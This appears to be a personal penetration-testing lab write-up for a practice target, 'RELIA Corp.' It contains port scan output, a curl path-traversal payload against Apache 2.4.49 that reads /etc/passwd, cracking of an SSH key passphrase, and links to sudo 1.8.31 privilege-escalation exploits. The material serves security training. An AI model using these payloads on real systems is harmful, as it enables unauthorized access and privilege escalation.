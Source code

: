 Linux - ttl=61

# rustscan
```
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 61
80/tcp   open  http         syn-ack ttl 61
443/tcp  open  https        syn-ack ttl 61
2222/tcp open  EtherNetIP-1 syn-ack ttl 61
8000/tcp open  http-alt     syn-ack ttl 61

```


# nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 13:33 EDT
Nmap scan report for 192.168.213.245
Host is up (0.074s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http     Apache httpd 2.4.49 ((Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8)
|_http-title: RELIA Corp.
|_http-server-header: Apache/2.4.49 (Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8
| http-methods: 
|_  Potentially risky methods: TRACE
443/tcp  open  ssl/http Apache httpd 2.4.49 ((Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.49 (Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8
| ssl-cert: Subject: commonName=web01.relia.com/organizationName=RELIA/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2022-10-12T08:55:44
|_Not valid after:  2032-10-09T08:55:44
|_http-title: RELIA Corp.
| http-methods: 
|_  Potentially risky methods: TRACE
2222/tcp open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 30:0c:6c:9b:ac:07:47:5e:df:6d:ff:38:63:38:2a:fd (RSA)
|   256 f3:a9:70:76:c8:d4:c4:17:f4:39:1f:be:58:9d:1f:a5 (ECDSA)
|_  256 21:a0:79:82:2d:e6:2a:76:11:24:2f:7e:2e:a8:c7:83 (ED25519)
8000/tcp open  http     Apache httpd 2.4.49 ((Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8)
|_http-server-header: Apache/2.4.49 (Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html).
Service Info: Host: RELIA; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.27 seconds

```

Login page on 8000 port

![[Pasted image 20240603232501.png]]

# Apache version 2.4.49

### path traversal
```
curl http://192.168.223.245/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
(also worked for 8000)
get users and found anita's private public keys

did ssh2john and passphrase is `fireball`

![[Pasted image 20240605013240.png]]

### local.txt

![[Pasted image 20240605013255.png]]

# Priv esc

got **sudo version 1.8.31**

https://www.youtube.com/watch?v=AsrBmg7G_eM

https://github.com/teamtopkarl/CVE-2021-3156

![[Pasted image 20240605172136.png]]

![[Pasted image 20240605172205.png]]

This should also be working but didn't worked for me
https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit


Most likely Standalone

single interface
![[Pasted image 20240605172725.png]]
not found anything interesting with linpeas

### post enum

got few hashes, though those are not crackable hashcat mode 1800